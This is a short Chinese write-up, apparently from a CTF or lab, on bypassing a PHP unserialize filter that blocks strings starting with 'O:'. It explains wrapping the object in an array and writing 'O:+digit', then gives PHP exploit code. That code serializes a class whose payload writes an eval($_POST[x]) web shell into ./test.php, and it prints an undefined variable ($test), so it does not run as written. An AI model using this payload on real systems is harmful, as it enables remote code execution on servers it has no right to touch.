有过过滤，不让对象序列化数据类型进行反序列化
```
if(substr($data,0,2) !== 'O:' && !preg_match('/O:\d:\/'，$data））{
    return unserialize($data);
}
```
substr($data,0,2) !== 'O:' 不让对象类型，则使用数组类型。
不让用O:d，则O:+d绕过。
```
<?php
class T{
       public $c="./test.php";
       public $t='<?php eval($_POST[x]);?>';
}

$a = new T();
$b = Array($a);
print(serialize($test));
```